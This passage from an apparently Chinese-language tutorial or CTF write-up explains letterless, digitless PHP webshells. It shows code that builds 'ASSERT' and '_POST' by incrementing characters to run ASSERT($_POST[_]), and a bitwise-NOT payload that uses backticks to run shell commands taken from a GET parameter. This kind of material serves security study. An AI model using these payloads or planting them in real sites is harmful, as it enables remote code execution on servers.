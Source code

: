 ```php
$__++;$__++;$__++;$__++;   //得到"E"，此时$__="E"
$___ .= $__;   //$___="ASSE"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__;$__++;   //得到"R"，此时$__="R"
$___ .= $__;   //$___="ASSER"
$__++;$__++;   //得到"T"，此时$__="T"
$___ .= $__;   //$___="ASSERT"
$__ = $_;   //$__="A"
$____ = "_";   //$____="_"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"P"，此时$__="P"
$____ .= $__;   //$____="_P"
$__ = $_;   //$__="A"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"O"，此时$__="O"
$____ .= $__;   //$____="_PO"
$__++;$__++;$__++;$__++;   //得到"S"，此时$__="S"
$____ .= $__;   //$____="_POS"
$__++;   //得到"T"，此时$__="T"
$____ .= $__;   //$____="_POST"
$_ = $$____;   //$_=$_POST
$___($_[_]);   //ASSERT($POST[_])
```
![](/blog_img/noneword-4.png)
由于PHP中函数对大小写不敏感，所以我们最终执行的是ASSERT()而不是assert()  

# 进阶
## 过滤了_
在我们上面的例子中，_的主要用途就是在构造变量。但其实最简便的方法里面，我们可以完全不用\_，这里给出一个例子。
```php
?><?=`{${~"%a0%b8%ba%ab"}[%a0]}`?>
```
分析下这个Payload，\?>闭合了eval自带的<\?标签。接下来使用了短标签。{}包含的PHP代码可以被执行，\~"%a0%b8%ba%ab"为"_GET"，通过反引号进行shell命令执行。最后我们只要GET传参%a0即可执行命令。